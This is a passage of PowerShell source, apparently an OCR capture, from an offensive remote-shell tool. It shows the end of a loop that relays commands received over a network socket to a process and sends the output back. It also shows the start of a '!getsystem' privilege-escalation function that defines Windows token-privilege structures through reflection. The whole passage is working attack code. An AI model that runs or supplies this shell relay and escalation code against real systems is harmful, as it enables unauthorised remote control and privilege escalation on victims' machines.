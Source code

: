                     if ($Position -gt 0) {
                        $ReturnString = $AsciiEncoding.GetString($NetworkBuffer,0,$Position)
                        $InputStream.write($ReturnString)
                        $Output = $AsciiEncoding.GetString($OutputputStream.Read())
 
                        while ($OutputputStream.Peek() -ne -1){
                            $Output += $AsciiEncoding.GetString($OutputputStream.Read())
                        }
        
                        $NetworkStream.Write($AsciiEncoding.GetBytes($Output),0,$Output.length)
                        $Output = $Null | Out-Null
                    }
    
                    else {
                        $Done = $True | Out-Null
                    }
                }
        }

        #This implements the !getsystem command which was taken from a script written by Matt Graeber
        #Ex: !getsystem
        Function GetSystem {

            if ($IsAdmin -eq $True) {

                $DynAssembly = New-Object Reflection.AssemblyName('AdjPriv')
                $AssemblyBuilder = [Appdomain]::Currentdomain.DefineDynamicAssembly($DynAssembly, [Reflection.Emit.AssemblyBuilderAccess]::Run)
                $ModuleBuilder = $AssemblyBuilder.DefineDynamicModule('AdjPriv', $False)
                $Attributes = 'AutoLayout, AnsiClass, Class, Public, SequentialLayout, Sealed, BeforeFieldInit'

                $TokPriv1LuidTypeBuilder = $ModuleBuilder.DefineType('TokPriv1Luid', $Attributes, [System.ValueType])
                $TokPriv1LuidTypeBuilder.DefineField('Count', [Int32], 'Public') | Out-Null
                $TokPriv1LuidTypeBuilder.DefineField('Luid', [Int64], 'Public') | Out-Null
                $TokPriv1LuidTypeBuilder.DefineField('Attr', [Int32], 'Public') | Out-Null
                $TokPriv1LuidStruct = $TokPriv1LuidTypeBuilder.CreateType()

                $LuidTypeBuilder = $ModuleBuilder.DefineType('LUID', $Attributes, [System.ValueType])
                $LuidTypeBuilder.DefineField('LowPart', [UInt32], 'Public') | Out-Null
                $LuidTypeBuilder.DefineField('HighPart', [UInt32], 'Public') | Out-Null
                $LuidStruct = $LuidTypeBuilder.CreateType()

                $Luid_and_AttributesTypeBuilder = $ModuleBuilder.DefineType('LUID_AND_ATTRIBUTES', $Attributes, [System.ValueType])
                $Luid_and_AttributesTypeBuilder.DefineField('Luid', [LUID], 'Public') | Out-Null
                $Luid_and_AttributesTypeBuilder.DefineField('Attributes', [UInt32], 'Public') | Out-Null
                $Luid_and_AttributesStruct = $Luid_and_AttributesTypeBuilder.CreateType()

                $ConstructorInfo = [Runtime.InteropServices.MarshalAsAttribute].GetConstructors()[0]
                $ConstructorValue = [Runtime.InteropServices.UnmanagedType]::ByValArray
                $FieldArray = @([Runtime.InteropServices.MarshalAsAttribute].GetField('SizeConst'))
                $TokenPrivilegesTypeBuilder = $ModuleBuilder.DefineType('TOKEN_PRIVILEGES', $Attributes, [System.ValueType])
                $TokenPrivilegesTypeBuilder.DefineField('PrivilegeCount', [UInt32], 'Public') | Out-Null
                $PrivilegesField = $TokenPrivilegesTypeBuilder.DefineField('Privileges', [LUID_AND_ATTRIBUTES[]], 'Public')
                $AttribBuilder = New-Object Reflection.Emit.CustomAttributeBuilder($ConstructorInfo, $ConstructorValue, $FieldArray, @([Int32] 1))
                $PrivilegesField.SetCustomAttribute($AttribBuilder)
                $TokenPrivilegesStruct = $TokenPrivilegesTypeBuilder.CreateType()
